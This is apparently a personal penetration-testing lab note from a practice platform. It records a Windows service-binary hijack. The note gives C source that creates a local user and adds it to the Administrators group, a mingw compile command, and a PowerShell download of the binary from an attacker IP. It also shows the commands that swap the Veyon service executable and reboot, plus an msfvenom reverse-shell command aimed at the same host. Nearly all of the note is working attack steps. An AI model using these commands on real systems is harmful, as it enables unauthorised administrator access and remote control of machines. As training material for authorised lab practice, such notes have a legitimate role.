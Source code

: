 Try to add an admin 

adduser.c 
```C
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user cadet password1! /add");
  i = system ("net localgroup administrators cadet /add");
  
  return 0;
}
```

Compile
```
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

Transfer
```
iwr -uri http://192.168.45.152:81/adduser.exe -Outfile adduser.exe
```
![[PG/Windows/attachments/Pasted image 20250707000836.png]]
Move original `veyon-service.exe` to `C:\Users\Ela Arwel\Temp `
```
move "C:\Users\Ela Arwel\Veyon\veyon-service.exe" "C:\Users\Ela Arwel\Temp"
```
![[PG/Windows/attachments/Pasted image 20250707000857.png]]
Move malicious binary in 
```
move .\adduser.exe "C:\Users\Ela Arwel\Veyon\veyon-service.exe"
```
![[PG/Windows/attachments/Pasted image 20250707000915.png]]
Stop the service 

```
net stop VeyonService
```
![[PG/Windows/attachments/Pasted image 20250707000940.png]]
Access denied

Reboot worked

```
shutdown /r /t 0
```

![[PG/Windows/attachments/Pasted image 20250707001025.png]]

Need to resend phishing email to get shell back.

I should have replaced the binary with a reverse shell..

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.152 LPORT=1338 -f exe -o rev.exe
```

Yeah I effed up with the add user thing. oh well.

